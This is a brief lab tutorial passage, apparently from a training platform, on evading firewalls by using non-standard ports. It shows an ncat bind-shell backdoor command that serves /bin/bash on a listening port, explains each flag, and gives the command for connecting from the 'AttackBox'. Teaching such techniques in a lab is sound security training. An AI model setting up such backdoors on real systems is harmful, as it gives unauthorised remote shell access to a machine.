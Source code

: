 ## Evasion Using Non-Standard Ports with Ncat

You can use `ncat` to create a backdoor that allows interaction with a Bash shell over a specified port:

```bash
ncat -lvnp PORT_NUMBER -e /bin/bash
```

- `-l`: Listen mode (waits for incoming connections)
- `-v`: Verbose output
- `-n`: Numeric-only IP addresses (no DNS)
- `-p PORT_NUMBER`: Specifies the port to listen on
- `-e /bin/bash`: Executes the given command (`/bin/bash` in this case)

On the AttackBox, connect to the target machine with:

```bash
ncat MACHINE_IP PORT_NUMBER
```

**Note:**
- If a firewall is present, simply running `ncat` may not be enough. You must ensure the chosen port is accessible through the firewall.
- Only privileged users (root or using `sudo`) can bind to ports below 1024. Use a port number above 1024 if you do not have elevated privileges.